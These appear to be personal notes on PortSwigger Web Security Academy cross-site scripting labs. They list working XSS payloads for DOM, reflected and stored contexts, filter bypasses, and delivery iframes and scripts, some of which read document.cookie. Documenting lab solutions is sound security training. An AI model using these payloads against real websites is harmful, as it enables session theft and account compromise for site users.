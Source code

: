 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

> Function replaces first angle brakets only:

```js
 function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```js
<><img src=1 onerror=alert(1)>
```

# Reflected XSS into HTML context with most tags and attributes blocked

"Tag is not allowed"

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy tags to clipboard

![[Pasted image 20240806115813.png]]

Status 200 --> body

"Attribute is not allowed"

Copy events to clipboard

![[Pasted image 20240806120249.png]]

```js
<body onresize="print()">
```

```js
<iframe src="https://0aff0012036c406f80a92664002500fa.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```


# Reflected XSS into HTML context with all tags blocked except custom ones

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

```
https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert(document.cookie)+tabindex%3D1%3E#x
```

```html
<script>
location = 'https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
</script>
```

# Reflected XSS with some SVG markup allowed

![[Pasted image 20240807114732.png]]

```js
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

# Reflected XSS in canonical link tag

```html
<link rel="canonical" href='https://0a27005e04da85618195de30000a0031.web-security-academy.net/?feq46jyh'/>
```

![[Pasted image 20240807120853.png]]

```js
?'accesskey='x'onclick='alert(1)
```

# Reflected XSS into a JavaScript string with single quote and backslash escaped

Single quote gets backslash-escaped, preventing you from breaking out of the string.

```html
</script><script>alert(1)</script>
```


# Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

The value of the **search** request parameter is copied into a JavaScript string which is encapsulated in single quotation marks. 

```js
\';alert(1)//
```

![[Pasted image 20240808045534.png]]



# Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
http://foo?&apos;-alert(1)-&apos;
```

# Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

Test which characters are not unicodes

```html
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

```js
${alert(1)}
```


